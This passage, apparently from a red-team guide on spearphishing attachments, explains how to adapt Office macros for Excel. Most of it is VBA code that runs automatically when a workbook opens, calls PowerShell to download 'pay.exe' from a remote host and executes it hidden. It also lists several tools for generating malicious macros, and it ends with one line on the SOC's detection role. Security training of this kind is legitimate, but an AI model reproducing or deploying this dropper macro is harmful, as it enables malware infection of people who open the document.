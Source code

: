 
#### 1.2.2. Microsoft Excel as Spearphishing Attachment
The same applies to Microsoft Word; make the following changes:
- `AuoOpen` to `Auto_Open`
- `Document_Open()` to `Workbook_Open()`
    ```vb
    Sub Auto_Open()
        myMacro
    End Sub

    Sub Workbook_Open()
        Auto_Open
    End Sub
    ```

An example of modified script used before:
```vb
' The following 2 functions allowed the execution of our macro when the docuemnt is opened
Sub Workbook_Open()
    MyMacro
End Sub

Sub Auto_Open()
    MyMacro
End Sub


Sub MyMacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadFile('https://192.168.x.x/pay.exe', 'pay.exe')"
    Shell str, vbHide
    
    ' The file will dropped on the current file directory, we can execute it from there
    Dim exePath As String
    exePath = ActiveWorkbook.Path + "\pay.exe"
    
    If Application.Wait(Now + TimeValue("0:00:2")) Then
    ' Execute the payload
        Shell exePath, vbHide
    End If
End Sub
```

#### 1.2.3. Tools: Microsoft Offices & Spearphishing Attachment
1. MaliciousMacro MSBuild Generator: <https://github.com/infosecn1nja/MaliciousMacroMSBuild>
2. SpookFlare <https://github.com/hlldz/SpookFlare>
3. BadAssMacros <https://github.com/Inf0secRabbit/BadAssMacros>
5. VBS-Macro-XOR-Generator <https://github.com/xbz0n/VBS-Macro-XOR-Generator>

---
### 1.3. SOC & Spearphishing Attachment (T1566.001)
After the Red Teaming simulation, it’s the SOC team’s responsibility to analyze, detect, and mitigate such attacks in real-world scenarios.
